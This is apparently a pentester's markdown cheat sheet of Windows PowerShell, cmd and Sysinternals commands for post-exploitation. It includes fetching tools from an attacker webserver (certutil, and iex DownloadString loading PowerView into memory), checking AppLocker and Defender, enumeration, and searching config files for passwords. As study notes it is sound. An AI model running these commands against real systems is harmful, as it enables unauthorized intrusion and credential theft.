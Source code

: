 # Useful commands with Powershell, cmd and Sysinternals

## Powershell

### Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file` (works also in cmd)
  ```
  PS C:\Users\users\Desktop> certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
  ****  Online  ****
  CertUtil: -URLCache command completed successfully.
  ```
- `wget http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need -OutFile name-you-want-to-give-the-file`
  ```
  PS C:\Users\user\Desktop> wget http://192.168.3.28/powerview.ps1 -OutFile powerview.ps1
  ```
- `iex (New-Object Net.WebClient).DownloadString('http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need')` will load it in memory without writing it in the disk, we will the be able to run powerview command if we use it to load powerview for instance
  ```
  PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
  ```

### Powershell Remoting

- `Enter-PSSession -ComputerName workstation-01`
- `Enter-PSSession -ComputerName workstation-01 -Credential domain\Username`
- ` Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName workstation-01 -Credential domain\Username` connect to a remote powershell and excute command with ScriptBlock. other command we could do with scriptblock: `ipconfig`, `net user`,...
- `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` List AppLocker rules

### Misc

- `Install-Module ActiveDirectoryModule -ScopeCurrentUser` Install a module without admin rights
- `Get-MpComputerStatus` Check Windows Defender Status
- `Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone` Test AppLocker policy
- `Get-HotFix | ft -AutoSize` display hotfixes
- `Get-WmiObject -Class Win32_Product |  select Name, Version` display installed software
- `gci (Get-ChildItem)` list named pipes

## CMD

### Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file`
- `curl.exe -o name-you-want-to-give-the-file http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need`

### System Enumeration

- If we want to grep on specific information we can use `findstr`  
  `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  
  ```
  c:\>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  OS Name:                   Microsoft Windows 7 Enterprise 
  OS Version:                6.1.7600 N/A Build 7600
  System Type:               X86-based PC
  ```
  
- If we want to see patches and update `wmic qfe`
  - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- List the drives `wmic logicaldisk` `list drives`
- `schtasks` query scheduled task
  - `schtasks /query /fo LIST /v`
- `driverquery` will list installed drivers
- `tasklist /svc` get the list of running processes
- `set` display all environment variables
- `wmic product get name` display installed software

### User Enumeration

- `whoami`will give info on the current user
- `whoami /priv` will give info on the current user and their priv
- `whoami /groups` will give info on groups the current user is in
- `net user` or `net users` will list the user on the machine
- `query user` logged in users
- `echo %USERNAME%` current user
- `net user username` will list info about the with the username mentionned
- `net localgroup` `net localgroup groupname` will give info on group
- `qwinsta` or  `query session` other users logged in simultaneously
- `net accounts` Get Password Policy & Other Account Information

### Network Enumeration

- `ipconfig` or `ipconfig /all`
- `arp -a`
- `route print`
- `netstat -ano` list active connections
  - `-a`: Displays all active connections and listening ports on the target system.
  - `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
  - `-o`: Displays the process ID using each listed connection.
  - Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service. This is when we might need to use port forwarding to investigate the service.
- Check what service runs on a specific port (in the example we will use 8080
  - `netstat -ano | findstr 8080`  
  ![image](https://user-images.githubusercontent.com/96747355/163686732-6f1b095a-70f0-4a04-a3a5-cc64a988b1e1.png)  
  - From this output we can take the pid and checkout which service it is using tasklist `tasklist | findstr 2164`  
  ![image](https://user-images.githubusercontent.com/96747355/163686766-1aa8da58-8584-4902-9dda-188fba31021f.png)  

### Hunting passwords

- `findstr /si password *.txt` will search for the string "password" in txt files `/si` means it searches in the current directory and all subdirectories (s) and ignore the case (i).
- `findstr /si password *.txt *.ini *.config *.sql` same but also in ini, sql and config files

### AV Enumeration

- `sc query windefend` will show if Defender is running
- `sc queryex type= service` will list all running service
- `netsh advfirewall firewall dump` check for firewall
- `netsh firewall show state` similar older command
- `netsh firewall show config` will show the config of the firewall, useful to see blocked ports and other

## Sysinternals

### Pipelist

[Pipelist](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) is useful to enumerate instances of pipes  
- `pipelist.exe /accepteula` enumerate instances of named pipes.

### Accesschk

[Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) is useful to enumerate permissions  
- `accesschk.exe /accepteula`
- `accesschk.exe -wuvc Everyone *` list service we can write and to which everyone has access
- `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"` List of user groups with read and write privs

## Resources

{% embed url="https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.1" %} Working with wmic {% endembed %}  

